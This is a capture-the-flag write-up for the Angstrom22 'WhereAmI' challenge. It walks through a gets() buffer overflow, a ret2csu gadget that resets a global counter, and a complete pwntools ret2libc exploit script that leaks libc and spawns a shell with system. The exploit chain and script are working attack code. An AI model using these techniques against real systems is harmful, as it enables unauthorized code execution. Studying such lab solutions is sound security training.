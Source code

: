 <h2> Binary Exploitation </h2>

    - Chall Name: WhereAmI
     - CTF: Angstrom22

This challenge is basically just ret2libc but with a twist.

The catch is that there's a global variable counter that makes sure we don't get to call `main()` again but i bypassed that by decrementing the value stored in the global variable

Let's start shall we?

As usual we get the file type and protections enabled. The libc was also attached so i already patched it with `pwninit`.
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4b72c7e4-0051-4077-9f93-80380ab5eb4f)

So we're working with a x64 binary which is dynamically linked and not stripped

The only protection enabled is NX

I ran the binary to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d19c5419-a02f-442c-a9e8-b936844ea098)

It receives our input then the program exists

Loading the binary up in Ghidra and looking at the main function shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cc64162-dd05-41c9-83f6-874033724791)

```c

undefined8 main(void)

{
  char buffer [60];
  __gid_t egid;
  
  setbuf(stdout,(char *)0x0);
  egid = getegid();
  setresgid(egid,egid,egid);
  puts("I\'m so lost.");
  printf("Who are you? ");
  if (0 < counter) {
    exit(1);
  }
  counter = counter + 1;
  gets(buffer);
  puts("I hope you find yourself too.");
  return 0;
}
```

There's no other function aside that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/90baa1c7-f43c-441b-981a-6d346fa634a1)

So concerning the main function here's what it does:
- Gets the current effective group id and sets the real user id to the value returned
- It checks if the `counter` which is a global variable is greater than `0` and if it is the program exits with return code of `1`
- If the program doesn't exit it will increment the counter by `1` and receive our input using `gets()` then finally return

The vulnerability is pretty obvious to spot since the usage of `gets()` leads to buffer overflow

What next?

At first I tried to leak libc using `puts()` and jump to the next instruction which tends to increment the counter 

It worked but after I provide input the program crashes?

Here's the code snippet I used
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47cb4109-ca9d-4ee9-ac7c-9283be22ef29)

From debugging I saw that this was the issue
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/19b066da-b921-48f2-84a1-86006281bdd6)

```
 ► 0x7f7848980ad3 <gets+307>    mov    byte ptr [rbx], al

al = 0x61
rbx = 0x6161617261616131
```

We can see that it's meant to move the value of the rax register into the pointer of the rbx register

But in this case we've overwritten the value that's meant to be there making the program crash

At this point I was pretty stucked so I decided to take a look at the available rop gadgets

Looking at the gadgets shown from using `ropper` I couldn't make use of any of them

But when I used `ROPgadget` to take a look at the available gadgets I came across one that wasn't shown by `ropper`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f40a7cc8-b6d3-4b14-bea0-1d810ac3466c)

```
0x00000000004011dc : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
````

Looking at it we can add the value of the `ebx` register to `rbp-0x3d` making it a `add-what-where` gadget which is useful

So let's say the counter address is stored in `rbp-0x3d` and the `ebx` register has value of `-1`

When the instruction is executed the value stored in the counter will be decremented to 0

I then decided to make use of this because it's a good primitive 

But first we need to control `ebx & rbp`

I didn't see any gadgets that allowed me to control it directly
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5fe94fe3-8750-4fe7-92f3-aff30ad855c5)

Luckily there was `__libc_csu_init`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/75450f77-1d44-4759-8ce0-db1f58859ac5)

This makes `ret2csu` viable and therefore giving us control over the `ebx & rbp` registers
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57cf7bf4-95d7-43df-8397-de6656014811)

So the goal is to first call `csu_pop == 0x00000000004012f6`

Then the following will be stored:

```
add rsp, 0x8 == padding (fill with 0)
pop rbx == 0xffffffff (-1)
pop rbp == counter + 0x3d
pop r12 == 0x0
pop r13 == 0x0
pop r14 == 0x0
pop r15 == 0x0
```

And finally we can just do the standard ret2libc attack

Here's my finally script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF('whereami_patched')
elf = exe
libc = exe.libc

filterwarnings("ignore")
context.log_level = 'info'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main+162
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io

    io = start()

def solve():
    offset = 72
    pop_rdi = 0x0000000000401303 # pop rdi; ret; 
    ret = 0x000000000040101a # ret; 

    csu_pad_pop = 0x00000000004012f6 # add rsp, 8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15
    dec = 0x00000000004011dc # add dword ptr [rbp - 0x3d], ebx ; nop ; ret

    payload = flat({
        offset: [
            csu_pad_pop,
            0x0,
            0xffffffff,
            elf.sym['counter'] + 0x3d,
            0x0,
            0x0,
            0x0,
            0x0,
            dec,
            pop_rdi,
            elf.got['puts'],
            elf.plt['puts'],
            ret,
            elf.sym['main']
        ]
    })

    io.sendlineafter('?', payload)
    io.recvuntil('too.\n')
    puts = u64(io.recv(6).ljust(8, b'\x00'))
    libc.address = puts - libc.sym['puts']
    info("libc base: %#x", libc.address)

    sh = libc.address + 0x1b45bd
    system = libc.sym['system']

    info("sh: %#x", sh)
    info("system: %#x", system)

    payload = flat({
        offset: [
            pop_rdi,
            sh,
            ret,
            system

        ]
    })

    io.sendline(payload)

    io.interactive()


def main():
    
    init()
    solve()

if __name__ == '__main__':
    main()
```

Running it works!
[![asciicast](https://asciinema.org/a/aNGDH4s5gP9cHqRTMMAH1Kt4b.svg)](https://asciinema.org/a/aNGDH4s5gP9cHqRTMMAH1Kt4b)




